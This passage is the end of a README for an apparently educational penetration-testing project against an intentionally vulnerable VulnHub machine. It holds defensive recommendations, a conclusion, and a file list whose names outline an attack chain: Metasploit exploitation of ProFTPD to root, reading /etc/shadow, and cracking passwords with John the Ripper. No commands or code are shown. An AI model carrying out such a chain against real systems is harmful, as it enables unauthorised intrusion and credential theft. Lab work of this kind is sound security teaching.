- **Access Control:** restrict or remove sensitive paths such as `/secret`, protect `/etc/shadow`, limit root access, disable unnecessary services, and apply least-privilege principles.

### 6.4 Conclusion

The target system was fully compromised by chaining outdated software, unencrypted protocols, and weak passwords. The assessment progressed from initial discovery to complete compromise and recovered a real user password from its hash. Addressing authentication, encryption, patching, and access control together would break this attack chain and significantly strengthen the system's security posture.

---

## Repository Structure

```
Network-Security-Project/
├── README.md
├── images/
│   ├── fig01-target-vm-running.png
│   ├── fig02-nat-network-configuration.png
│   ├── fig03-kali-and-target-virtualbox.png
│   ├── fig04-netdiscover-target-discovery.png
│   ├── fig05-ping-connectivity-verification.png
│   ├── fig06-nmap-service-version-scan.png
│   ├── fig07-whatweb-fingerprinting.png
│   ├── fig08-nikto-web-enumeration.png
│   ├── fig09-ftp-login-attempt.png
│   ├── fig10-wireshark-ftp-tcp-stream-plaintext.png
│   ├── fig11-wordpress-login-page.png
│   ├── fig12-wireshark-http-post-request.png
│   ├── fig13-wireshark-http-over-tcp-capture.png
│   ├── fig14-metasploit-proftpd-exploit-config.png
│   ├── fig15-metasploit-exploitation-root-access.png
│   ├── fig16-etc-passwd-contents.png
│   ├── fig17-etc-shadow-contents.png
│   ├── fig18-passwd-saved-to-kali.png
│   ├── fig19-john-ripper-sha512-wordlist-attempt.png
│   └── fig20-john-ripper-single-mode-cracked.png
└── code/
    ├── 01-environment-setup.sh
    ├── 02-system-discovery.sh
    ├── 03-network-traffic-observation.sh
    └── 04-authentication-evaluation.sh
```

> **Disclaimer:** This project was conducted entirely within an isolated lab environment using an intentionally vulnerable virtual machine from VulnHub. All techniques documented here are for educational purposes only. Do not use these methods against any system without explicit written authorisation.
